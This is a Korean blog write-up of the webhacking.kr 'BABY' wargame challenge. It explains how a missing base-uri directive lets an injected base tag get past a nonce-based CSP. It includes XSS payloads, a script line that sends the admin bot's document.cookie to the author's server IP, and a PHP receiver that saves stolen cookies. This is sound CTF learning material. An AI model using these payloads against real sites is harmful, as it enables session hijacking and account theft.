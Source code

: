 ```yaml
---
title: "[webhacking.kr] Challenge BABY 문제 풀이"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - XSS
  - BABY
  - CSP
  - base-uri
  - script-src
  - nonce
  - hash
toc: true
toc_sticky: true
toc_label: "BABY 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge BABY 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제는 2개의 페이지로 구성되어 있습니다.
첫번째 화면은 다음 처럼 `?inject=` GET방식으로 원하는 문자열을 inject 하는 기능이 있는 페이지입니다.

![image](https://user-images.githubusercontent.com/33647663/156695592-d713cfe2-71e5-415b-a7cc-4b2d0e47ebb4.png)

그 다음은 `report.php`페이지로 사용자가 입력한 주소를 관리자가 바로 접속을 하는 기능입니다.

![image](https://user-images.githubusercontent.com/33647663/156695694-e5c4808d-ede1-4540-846f-169b553b0b59.png)

이 문제는 전형적인 **XSS**를 이용하는 문제입니다. 첫 번째 inject 페이지에서 악성 스크립트(대부분 쿠키를 탈취하는 스크립트)가 삽입되도록 inject 값을 구성하고, 두번째 페이지에서 해당 페이지에 관리자 봇이 접속하도록 하여, 악성 스크립트가 관리자 봇에서 동작하게 하면 됩니다.

# 문제 풀이
우선 inject 페이지에서 사용자의 입력값이 바로 들어가는지 또는 필터링이 있는지 확인해 봅니다.

```html
inject=<script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/33647663/156696005-93a16e2c-ffaf-44d3-b8e3-ff47543c0a5a.png)

해당 페이지의 소스코드를 보면, 다음과 같이 스크립트가 정상적으로 삽입되었지만, alert(1)구문이 실행이 되지 않습니다. 

원인을 찾기 위해서 콘솔을 띄워 보니 다음의 오류가 출력되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156696124-cb5c9583-8018-49a6-beab-aa53b14477b1.png)

```md
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg='". Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), or a nonce ('nonce-...') is required to enable inline execution.
```

해석을 해보면, CSP 지시자인 `script-src 'nonce-8U+ozHAw9t1UUZIQnkvFyQlu+Hg=`를 위반했기 때문에 inline script가 실행되지 않은 것을 알 수 있습니다.

따라서 이번 문제는 CSP를 우회하여 script가 실행되도록 해야 합니다.

뒤에 붙은 추가적인 에러 내용을 우선 짚고 넘어가 보겠습니다.

1. `unsafe-inline` 키워드를 사용
2. hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=')
3. nonce 값 넣기

를 하면 inline execution이 가능하다고 나옵니다.

우선 1번의 내용은 서버 측에서 CSP 정책을 설정할 때, unsafe-inline 지시자를 추가하여, 지금처럼 inline script가 실행되는 것을 허용하라는 의미입니다. 현재 클라이언트(공격자) 입장에서 지시자를 바꿀 수 없기 때문에 가능하지 않습니다.

2번 내용도 서버에서 설정을 하는 내용이며 CSP 정책을 설정할 때, 해시값을 넣어주는 것입니다. 위의 나온 해시값은 제가 입력한 스크립트(`<script>alert(1)</script>`)의 해시 값입니다. 이 개념은 서버측에서 스크립트에 대한 해시를 사전에 등록하여 정상적인 스크립트만 화이트리스트 방식으로 허용하는 것으로 생각하면 됩니다. 물론 해당 내용도 클라이언트에서 바꿀 수 없기 때문에 현재 문제에서는 가능하지 않습니다.

3번은 현재 서버측 CSP 지시자에 설정되어 있는 값으로, 사용자가 매번 요청할 때마다 랜덤한 nonce 값이 script에 추가되어 클라이언트에 전송됩니다. 따라서 서버공격자는 임의로 생성되는 nonce 값을 모르기 때문에 script를 실행할 수 없습니다.


현재 CSP 지시자는 다음과 같습니다. script-src에 nonce 값이 있어야만 결국에 스크립트가 작동됩니다. 

![image](https://user-images.githubusercontent.com/33647663/156748181-96f328b4-97fe-4cb5-b525-3e25aa15a93a.png)

처음에는 어떻게 이 문제를 해결해야 할 지 몰라서 다음의 CSP 설정에 대한 검사를 해주는 사이트에 문제의 url을 입력해 봤습니다.

https://csp-evaluator.withgoogle.com/

![image](https://user-images.githubusercontent.com/33647663/156748832-de03d580-da4a-4e39-af91-9ed7d7c28f26.png)

결과를 보면 2가지 위험 사항이 나옵니다.

1. object-src 지시자가 없기 때문에, Javascript가 실행가능한 plugin injection이 가능하다는 내용
2. base-uri 지시자가 없기 때문에, 공격자가 base-uri를 변경하여 상대경로로 지정한 스크립트를 공격자가 컨트롤하는 도메인 내에서 실행가능하게 할 수 있다는 내용입니다.


저는 위의 두가지 방법을 모두 시도해 봤습니다.

우선 object 를 이용하여 javascript를 실행하는 것은 다음처럼 가능합니다.

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

코드의 내용은 `<script>alert(1)</script>`를 base64로 인코딩 하여 object 형식으로 전송한 것입니다. 이 내용이 브라우저에서 실행되면 다음과 같이 됩니다.

![image](https://user-images.githubusercontent.com/33647663/156750041-50f10d8d-c119-4cb8-9b26-d4fc0568e391.png)

하지만 위의 방법도 결국에는 object가 해석되면서 script로 실행되어서 nonce 값이 없기 때문에 동일하게 실행되지 않습니다. 이 문제에서는 사용하지 못했지만, 나중에 다른 문제에서 `<script>` 를 필터링 한다든지 하는 경우에 사용가능한 방법 같습니다.

그 다음은 base-uri를 이용한 방법입니다.문제에서 보면 `/script.js` 파일이 상대경로로 지정되어서 서버의 base-uri/script.js 파일이 실행되고 있습니다. 

![image](https://user-images.githubusercontent.com/33647663/156750333-f9bf68aa-4fbb-4272-87f0-733b3cab1b8c.png)

base-uri를 이용한 공격은 이 base-uri 값을 공격자의 도메인으로 바꿔서 `www.hacker.com/script.js` 가 실행되도록 하는 것입니다.

base-uri를 바꾸는 방법은 다음과 같습니다. 아래의 코드가 삽입되면 서버에서 base-uri가 공격자의 도메인으로 바뀝니다. 


```html
<base href="www.hacker.com"/>
```

우선 대상 서버에서 접속할 도메인에 script.js 파일에 alert(1)을 작성해주고, inject를 해서 base-uri를 바꿔줍니다.

![image](https://user-images.githubusercontent.com/33647663/156750967-e64ca1f6-5a06-4b70-84bc-f9a4dc5f7b68.png)

```html
?inject=<base href="http://3.35.110.110/">
```

성공적으로 제 서버에 있는 `script.js` 파일이 실행되었습니다.

![image](https://user-images.githubusercontent.com/33647663/156751993-a114c2c6-c5aa-44ed-938d-64132ae4cd9c.png)

이제 script.js안에 쿠키를 탈취하기 위해서 다음과 같이 작성해 줍니다.

```js
document.location="http://3.35.110.110/xss.php?cookie="+document.cookie;
```

그리고 쿠키 값을 저장하도록 xss.php 파일을 다음과 같이 작성해 줍니다.

```php
<?php
$cookie = $_GET['cookie'];
$save_file = fopen("/var/www/html/cookie","w");
fwrite($save_file,$cookie);
fclose($save_file);
?>
```

이제 report.php 파일에 가서 다음과 같이 리포트를 하면, 관리자의 쿠키가 공격자에게 전송되어서 쿠키 탈취가 가능해 집니다.

![image](https://user-images.githubusercontent.com/33647663/156752745-f3e3378e-7b49-4722-b04b-f4fe34a39bdc.png)

![image](https://user-images.githubusercontent.com/33647663/156752781-70f3dff5-dfb7-47af-b0d4-815e44911f1b.png)



# Reference
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/base-uri
https://jdh5202.tistory.com/820